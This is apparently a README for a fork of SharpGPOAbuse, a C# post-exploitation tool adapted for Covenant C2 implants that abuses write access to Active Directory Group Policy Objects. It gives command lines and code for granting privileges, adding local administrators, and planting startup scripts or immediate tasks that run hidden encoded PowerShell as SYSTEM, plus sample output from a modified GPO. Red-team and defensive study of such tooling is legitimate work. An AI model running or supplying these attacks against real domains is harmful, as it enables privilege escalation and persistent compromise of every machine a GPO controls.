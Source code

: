 # SharpGPOAbuse

SharpGPOAbuse is a .NET application written in C# that can be used to take advantage of a user's edit rights on a Group Policy Object (GPO) in order to compromise the objects that are controlled by that GPO.

More details can be found at the following blog post: [https://labs.f-secure.com/tools/sharpgpoabuse](https://labs.f-secure.com/tools/sharpgpoabuse)

This fork of a fork provides some modifications for use with Covenant's Grunts. The most notable changes are removing the `Environment.Exit()` calls that will kill a Grunt (since they do not create sacrificial processes for post-ex jobs), removing the dependency for CommandLineParser, and the implementation of a custom parser. Because Covenant splits on spaces, the Assembly will combine all arguments and attempt to parse out options based on equal signs. For this reason, arguments are passed via `specialkeyword=Any Value`. There may be edge cases with the parser but the Assembly will tell you which options it interpreted.

## Compile Instructions

SharpGPOAbuse has been built against .NET 3.5 and is compatible with Visual Studio 2017 & 2019. Simply open the solution file and build the project.

## Usage

You can use the following CLI interface. The Assembly attempts to parse out options based on equal signs and special keywords so you do not need to (and should not) escape anything or use quotes.

```
SharpGPOAbuse (Friendly Fork)

  AddNewRights:
    SharpGPOAbuse.exe attack=AddNewRights gponame=Vuln GPO useraccount=SomeAccount userrights=someright1,someright2,someright3
  NewLocalAdmin:
    SharpGPOAbuse.exe attack=NewLocalAdmin gponame=Vuln GPO useraccount=SomeAccount
  NewStartupScript:
    SharpGPOAbuse.exe attack=NewStartupScript gponame=Vuln GPO scriptname=ScriptName scriptcontent=my script content
  NewImmediateTask:
    SharpGPOAbuse.exe attack=NewImmediateTask gponame=Vuln GPO author=Author taskname=My Special Task command=C:\some\path\to.exe arguments=some cli args
```

## Attacks Types

Currently SharpGPOAbuse supports the following options:

| Option                                                            | Description                          |
| ----------------------------------------------------------------- | ------------------------------------ |
| [AddUserRights](#adding-user-rights)                              | Add rights to a user                 |
| [AddLocalAdmin](#adding-a-local-admin)                            | Add a user to the local admins group |
| [AddComputerScript](#configuring-a-user-or-computer-logon-script) | Add a new computer startup script    |
| [AddUserScript](#configuring-a-user-or-computer-logon-script)     | Configure a user logon script        |
| [AddComputerTask](#configuring-a-computer-or-user-immediate-task) | Configure a computer immediate task  |
| [AddUserTask](#configuring-a-computer-or-user-immediate-task)     | Add an immediate task to a user      |

## Attack Options

### Adding User Rights

```c#
string[] UserRights = { "", "" };
string UserAccount = "";
string GPOName = "";

UserRightAssignment.AddNewRights(DomainName, DomainController, GPOName, DistinguishedName, UserRights, UserAccount);
```

`UserRights` can be any of the following:

```
SeTrustedCredManAccessPrivilege, SeNetworkLogonRight, SeTcbPrivilege, SeMachineAccountPrivilege, SeIncreaseQuotaPrivilege, SeInteractiveLogonRight, SeRemoteInteractiveLogonRight, SeBackupPrivilege, SeChangeNotifyPrivilege, SeSystemtimePrivilege, SeTimeZonePrivilege, SeCreatePagefilePrivilege, SeCreateTokenPrivilege, SeCreateGlobalPrivilege, SeCreatePermanentPrivilege, SeCreateSymbolicLinkPrivilege, SeDebugPrivilege, SeDenyNetworkLogonRight, SeDenyBatchLogonRight, SeDenyServiceLogonRight, SeDenyInteractiveLogonRight, SeDenyRemoteInteractiveLogonRight, SeEnableDelegationPrivilege, SeRemoteShutdownPrivilege, SeAuditPrivilege, SeImpersonatePrivilege, SeIncreaseWorkingSetPrivilege, SeIncreaseBasePriorityPrivilege, SeLoadDriverPrivilege, SeLockMemoryPrivilege, SeBatchLogonRight, SeServiceLogonRight, SeSecurityPrivilege, SeRelabelPrivilege, SeSystemEnvironmentPrivilege, SeManageVolumePrivilege, SeProfileSingleProcessPrivilege, SeSystemProfilePrivilege, SeUndockPrivilege, SeAssignPrimaryTokenPrivilege, SeRestorePrivilege, SeShutdownPrivilege, SeSyncAgentPrivilege, SeTakeOwnershipPrivilege
```

### Adding a Local Admin

```c#
string UserAccount = "";
string GPOName = "";

LocalAdmin.NewLocalAdmin(UserAccount, DomainName, DomainController, GPOName, DistinguishedName, false);
```

### Configuring a User or Computer Logon Script

```c#
string ScriptName = "Startup.bat";
string ScriptContent = "powershell.exe -Sta -Nop -Window Hidden -EncodedCommand <>";
string GPOName = "";

StartupScript.NewStartupScript(ScriptName, ScriptContent, DomainName, DomainController, GPOName, DistinguishedName, "User");
```

### Configuring a Computer or User Immediate Task

```c#
string TaskName = "";
string Author = "NT AUTHORITY\\SYSTEM";
string Command = "powershell.exe";
string Arguments = "-Sta -Nop -Window Hidden -EncodedCommand <>";
string GPOName = "";

ScheduledTask.NewImmediateTask(DomainName, DomainController, GPOName, DistinguishedName, TaskName, Author, Arguments, Command, false, "Computer");
```

## Example Output

```
[+] Domain = prod.zeropointsecurity.local
[+] Domain Controller = tf-win-dc02.prod.zeropointsecurity.local
[+] Distinguished Name = CN=Policies,CN=System,DC=prod,DC=zeropointsecurity,DC=local
[+] GUID of Server Baseline is: {205F0E03-17C3-4E9B-925E-330FAD565CA1}
[+] Creating new startup script...
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new startup script. Wait for the GPO refresh cycle.
[+] Done!
```
